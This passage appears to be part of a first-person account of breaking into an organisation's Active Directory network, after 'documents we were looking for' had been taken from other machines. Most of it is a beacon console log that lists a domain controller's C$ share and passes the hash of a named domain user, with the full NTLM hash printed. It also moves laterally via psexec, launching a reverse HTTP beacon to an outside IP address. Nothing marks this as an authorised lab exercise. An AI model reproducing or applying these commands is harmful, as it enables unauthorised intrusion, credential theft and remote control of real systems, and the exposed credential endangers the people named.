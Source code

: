 However, to the rest of the machines we got enough documents we were looking for but I had to spend looking around until we've pwned all the machines on the active directory network.

Finally the **domain controller (DC)** I thought I've finally pwned the whole network but what I didn't expect is the DC is blocking the beacon from executing it which took me minutes to realize this that **Windows Defender** is actually active on the domain controller. At first I had to list the files on `C$` share on **AQUILA** which I can upload the beacon shell. Then execute it remotely and then nothing happens.

```
beacon> ls \\AQUILA\C$
[*] Tasked beacon to list files in \\AQUILA\C$
[+] host called home, sent: 29 bytes
\\AQUILA\C$\*
D       0       11/26/2021 21:43:28     $Recycle.Bin
F       384322  07/16/2016 23:18:08     bootmgr
F       1       07/16/2016 23:18:08     BOOTNXT
D       0       11/13/2020 21:30:11     Distrib
D       0       10/06/2020 22:11:30     Documents and Settings
D       0       06/17/2021 08:08:42     ExchangeCert
D       0       10/28/2020 22:54:15     inetpub
D       0       10/09/2020 08:29:13     LdapAdmin
D       0       10/28/2020 23:06:10     Logs
D       0       10/26/2020 16:12:10     MSOCache
F       4414324736      03/17/2022 21:08:41     pagefile.sys
D       0       10/07/2020 03:26:41     PerfLogs
D       0       09/01/2021 22:03:05     Program Files
D       0       10/28/2020 23:08:00     Program Files (x86)
D       0       03/24/2022 06:25:40     ProgramData
D       0       10/06/2020 22:11:32     Recovery
D       0       10/07/2020 03:48:23     System Volume Information
D       0       11/26/2021 21:43:18     Users
D       0       03/24/2022 08:52:54     Windows
D       0       10/08/2020 23:58:52     zabbix_agent
F       55386   11/21/2021 23:14:42     zabbix_agentd.log


beacon> rev2self  
[*] Tasked beacon to revert token  
beacon> pth SHMC\sergeev.ma 924ec7e19e5de227b76184d71a231c1b  
[*] Tasked beacon to run mimikatz's sekurlsa::pth /user:sergeev.ma /domain:SHMC /ntlm:924ec7e19e5de227b76184d71a231c1b /run:"%COMSPEC% /c echo 9d894ea6456 > \\.\pipe\1f6e26" command  
[+] host called home, sent: 31 bytes  
beacon> jump psexec64 AQUILA sex  
[*] Tasked beacon to run windows/beacon_http/reverse_http (173.249.45.143:80) on AQUILA via Service Control Manager (\\AQUILA\ADMIN$\1be690b.exe)
[+] host called home, sent: 296055 bytes   
Impersonated NT AUTHORITY\SYSTEM  
  
03/23 22:52:49 UTC [output]  
received output:  
user    : sergeev.ma  
domain  : SHMC  
program : C:\Windows\system32\cmd.exe /c echo 9d894ea6456 > \\.\pipe\1f6e26  
impers. : no  
NTLM    : 924ec7e19e5de227b76184d71a231c1b  
 |  PID  24960  
 |  TID  23900  
 |  LSA Process is now R/W  
 |  LUID 1 ; 2706187083 (00000001:a14d234b)  
 \_ msv1_0   - data copy @ 000001E8E12B2450 : OK !  
 \_ kerberos - data copy @ 000001E8E00A6B18  
  \_ aes256_hmac       -> null                
  \_ aes128_hmac       -> null                
  \_ rc4_hmac_nt       OK  
```
